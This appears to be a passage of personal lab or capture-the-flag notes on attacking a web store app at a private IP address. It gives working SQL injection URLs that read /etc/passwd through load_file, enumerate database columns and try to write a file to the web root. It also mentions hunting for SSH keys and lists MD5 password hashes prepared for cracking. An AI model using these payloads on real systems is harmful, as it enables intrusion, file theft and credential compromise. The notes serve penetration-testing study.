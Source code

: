 ![[Pasted image 20240316090718.png]]
### Eploitong DB load_file function

*REF:* https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php

payload:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,load_file(%22/etc/passwd%22),group_concat(column_name),5,6,7%20from%20information_schema.columns%20where%20table_schema=%27BlackMarket%27%20and%20table_name=0x666c6167--%20- *server's username enumeration*

![[Pasted image 20240316082635.png]]

We can verify if we found a key file in */home/dimitri/.ssh/* 
### Test to upload files by SQL Injection

We need to have write permissions on server

payload:
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,%22test%22,4,5,6,7%20into%20outfile%20%22/var/www/html/test.txt%22--%20-

We look for test.txt if we supposed /var/www/html is the root directory of the site:

http://172.16.1.129/test.txt **it doesn't work for this machine because we don't have write privileges**

# Cracking Hash password

#### Editing the hashes
[[Linux terminal commands]]

### nvim

The hashes are stored in a file called *hashes* and we use vim or nvim to edit them:

To replace "," with \r for all "g"
:%s/,/\r/g

From:
admin:==cf18233438b9e88937ea0176f1311885==,user:0d8d5cd06832b29560745fe4e1b941cf,supplier:99b0e8da24e29e4ccb5d7d76e677c2ac,jbourne:28267a2e06e312aee91324e2fe8ef1fd,bladen :cbb8d2a0335c793532f9ad516987a41c

To:

admin: cf18233438b9e88937ea0176f1311885
user: 0d8d5cd06832b29560745fe4e1b941cf
supplier: 99b0e8da24e29e4ccb5d7d76e677c2ac
jbourne: 28267a2e06e312aee91324e2fe8ef1fd
bladen : cbb8d2a0335c793532f9ad516987a41c

#### *Note:* We can use commands to copy only the hashes:
